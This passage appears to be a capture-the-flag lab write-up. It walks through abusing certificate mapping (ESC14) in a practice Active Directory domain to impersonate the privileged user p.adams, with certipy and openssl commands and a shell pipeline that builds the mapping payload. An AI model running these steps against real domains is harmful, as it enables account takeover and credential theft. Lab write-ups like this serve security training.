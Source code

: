 4. Authenticate as High-Privilege User `p.adams` via Certificate Mapping

    With the updated mapping in place, authenticate as p.adams by abusing the existing h.brown PFX certificate obtained earlier through ESC9. This works because the certificate is now explicitly linked to p.adams via altSecurityIdentities (X509 RFC822 mapping).

    ![](https://cdn-images-1.medium.com/max/1000/1*sRrN0bU3Q7doh7GJg6JCQA.png)

    ```bash
certipy auth -pfx d.baker.pfx -username p.adams -domain scepter.htb -dc-ip 10.10.11.65
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*JDM1tUSU35yxoLY2THeM6Q.png)
    We got p.adam ticket and NT hash that we would use later for DCSync

#### ESC14 Scenario A user => user
We have permissions to modify the altSecurityIdentities attribute on the target account. This allows us to map our own certificate to the target by updating this attribute. Once mapped, we can authenticate as the target user using the certificate.

**This is called X509IssuerSerialNumber Mapping**Format:
`X509:<I>DC=domain,...<SR>SerialNumber`
##### Exploitation Steps
1. Enroll a Certificate
    We already have a certificate from impersonating h.brown.
2. Extract Issuer DN and Serial
    Look for:
        + Issuer: Distinguished Name
        + Serial Number: (may contain colons)
    ```bash
    openssl x509 -in d.baker.pfx -noout -text
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*uYGcrHIJHAjsf0DaglfZDg.png)
3. Prepare the Payload
    + Convert the serial
        + Remove colons
        + Convert to lowercase
        + Reverse hex pairs
        ```bash
        echo '62:00:00:00:02:80:94:eb:56:c1:65:ea:96:00:00:00:00:00:02' | tr -d ':' | tr 'A-F' 'a-f' | sed 's/../& /g' | awk '{for(i=NF;i>=1;i--) printf $i} END{print ""}'
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*pp6SIGPrlVCJkK0qnDTa0w.png)
    + Assemble the mapping payload to get this format 'X509:<I>{Issuer}<SR>{serialNumber}'
        ```bash
        echo '62:00:00:00:02:80:94:eb:56:c1:65:ea:96:00:00:00:00:00:02' | tr -d ':' | tr 'A-F' 'a-f' | sed 's/../& /g' | awk '{for(i=NF;i>=1;i--) printf $i} END{print ""}' | xargs -I {} echo "'X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>{}'"
        ```
        *don't forget to change the serial number*
        ![](https://cdn-images-1.medium.com/max/1000/1*eXZCggPK-_JVGKSkyG7-9Q.png)
